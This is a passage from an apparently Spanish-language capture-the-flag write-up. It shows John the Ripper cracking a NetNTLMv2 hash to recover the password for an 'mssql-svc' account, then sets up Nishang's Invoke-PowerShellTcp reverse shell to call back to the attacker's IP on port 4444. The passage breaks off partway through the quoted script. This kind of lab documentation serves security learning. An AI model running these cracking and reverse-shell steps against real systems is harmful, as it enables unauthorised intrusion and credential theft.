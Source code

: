 ```
# john -w:rockyou.txt hash          
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
corporate568     (mssql-svc)     
1g 0:00:00:03 DONE (2024-08-24 14:30) 0.2610g/s 2339Kp/s 2339Kc/s 2339KC/s correforenz..coreyny11
Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably
Session completed. 
```

Nos `descargamos` [https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1), una vez descargado el script vamos a copiar `Invoke-PowerShellTcp -Reverse -IPAddress 192.168.254.226 -Port 4444` que encontramos en la parte de `.EXAMPLE` al final del script con la dirección `IP` de nuestra máquina y con el `puerto` por el que nos mandará la `conexión`

```
function Invoke-PowerShellTcp 
{ 
<#
.SYNOPSIS
Nishang script which can be used for Reverse or Bind interactive PowerShell from a target. 

.DESCRIPTION
This script is able to connect to a standard netcat listening on a port when using the -Reverse switch. 
Also, a standard netcat can connect to this script Bind to a specific port.

The script is derived from Powerfun written by Ben Turner & Dave Hardy

.PARAMETER IPAddress
The IP address to connect to when using the -Reverse switch.

.PARAMETER Port
The port to connect to when using the -Reverse switch. When using -Bind it is the port on which this script listens.

.EXAMPLE
PS > Invoke-PowerShellTcp -Reverse -IPAddress 192.168.254.226 -Port 4444

Above shows an example of an interactive PowerShell reverse connect shell. A netcat/powercat listener must be listening on 
the given IP and port. 

.EXAMPLE
PS > Invoke-PowerShellTcp -Bind -Port 4444

Above shows an example of an interactive PowerShell bind connect shell. Use a netcat/powercat to connect to this port. 

.EXAMPLE
PS > Invoke-PowerShellTcp -Reverse -IPAddress fe80::20c:29ff:fe9d:b983 -Port 4444

Above shows an example of an interactive PowerShell reverse connect shell over IPv6. A netcat/powercat listener must be
listening on the given IP and port. 

.LINK
http://www.labofapenetrationtester.com/2015/05/week-of-powershell-shells-day-1.html
https://github.com/nettitude/powershell/blob/master/powerfun.ps1
https://github.com/samratashok/nishang
#>      
    [CmdletBinding(DefaultParameterSetName="reverse")] Param(
```